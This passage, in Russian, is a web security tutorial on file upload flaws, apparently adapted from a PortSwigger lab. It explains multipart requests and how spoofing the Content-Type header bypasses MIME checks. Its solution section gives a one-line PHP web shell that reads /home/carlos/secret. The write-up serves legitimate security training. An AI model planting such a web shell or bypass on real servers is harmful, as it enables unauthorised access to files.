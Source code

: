Рассмотрим форму, содержащую поля для загрузки изображения, его описания и ввода имени пользователя. При отправке такой формы может возникнуть запрос, который выглядит примерно так:
```
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456 

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```

Как видите, тело сообщения разделено на отдельные части для каждого из вводимых данных формы. Каждая часть содержит заголовок `Content-Disposition`, в котором содержится основная информация о поле ввода, к которому она относится. Эти отдельные части также могут содержать свой заголовок `Content-Type`, который сообщает серверу MIME-тип данных, отправленных с помощью этого ввода.  
  
Один из способов, с помощью которого веб-сайты могут пытаться проверить правильность загрузки файлов, - это проверка соответствия заголовка `Content-Type`, специфичного для поля ввода, ожидаемому типу MIME. Например, если сервер ожидает только файлы изображений, он может разрешить только такие типы, как `image/jpeg` и` image/png`. Проблемы могут возникнуть, если сервер неявно доверяет значению этого заголовка. Если не проводится дальнейшая проверка соответствия содержимого файла предполагаемому MIME-типу, эту защиту можно легко обойти с помощью таких инструментов, как Burp Repeater.

### Web shell upload через обход ограничений Content-Type
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass
Эта лабораторная содержит уязвимую функцию загрузки изображений. Она пытается предотвратить загрузку пользователями файлов неожиданных типов, но для проверки этого полагается на проверку контролируемого пользователем ввода.  
  
Чтобы решить эту задачу, загрузите базовую веб-оболочку PHP и используйте ее для получения содержимого файла `/home/carlos/secret`. Отправьте этот секрет с помощью кнопки, указанной на баннере лаборатории.  
  
Вы можете войти в свой собственный аккаунт, используя следующие учетные данные: `wiener:peter`

#### Решение

файл: `exploit.php`
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
